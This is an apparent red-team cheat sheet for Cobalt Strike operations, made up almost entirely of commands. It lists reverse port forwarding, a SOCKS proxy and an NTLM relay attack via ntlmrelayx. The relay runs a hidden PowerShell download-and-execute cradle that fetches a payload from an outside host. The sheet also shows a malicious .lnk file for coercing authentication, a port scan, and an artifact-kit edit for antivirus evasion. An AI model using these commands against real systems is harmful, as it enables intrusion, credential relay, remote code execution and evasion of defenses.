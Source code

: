 #### Create port forward
- Create a reverse port forward that will then relay the traffic from port 8445 to port 445 on the Team Server (where ntlmrelayx will be waiting).
```
rportfwd 8445 127.0.0.1 445
```

#### Create sockx proxy
```
socks 1080
```

#### NTLMRelay execute command
```
proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server -c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
```

#### Stop portbender
```
jobs
jobkill <JID>
kill <PID>
```

#### Create link file
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\<IP>\test.lnk")
$shortcut.IconLocation = "\\<IP>\test.ico"
$shortcut.Save()
```

#### Portscan
```
portscan <CIDR> 139,445,3389,5985 none 1024
```
    
## Evasion
### Artifact-kit
```
vim /opt/cobaltstrike/artifact-kit/src-common/bypass-pipe.c
```

### Changed this part from --> to
```
"%c%c%c%c%c%c%c%c%cMSSE-%d-server"
"%c%c%c%c%c%c%c%c%cService-%d-server"
```

#### Then run build.sh
```
./build.sh
```
